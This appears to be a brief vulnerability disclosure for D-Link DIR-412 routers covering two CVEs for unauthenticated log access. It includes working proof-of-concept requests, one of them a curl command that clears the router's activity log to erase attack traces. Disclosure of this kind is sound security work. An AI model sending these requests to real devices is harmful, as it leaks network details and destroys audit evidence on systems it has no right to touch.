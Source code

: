 ## info of vulnerability
There are some web interfaces without authentication requirements in D-Link routers. An attacker can get the router’s log file and clear it ,which could be used to detect inside network structure and erase the attack traces.

Vulnerable targets include but are not limited to the lastest firmware versions of DIR-412(A1-1.14WW)   

### CVE-2019-17511
Poc1: http://targetip/log_get.php
Attackers can get log file by this request.
![poc1](poc1.png)

### CVE-2019-17512
Poc2: curl -d "act=clear&logtype=sysact" "http://targetip/log_clear.php"
Attackers can clear log file by this request.
![poc2](poc2.png)

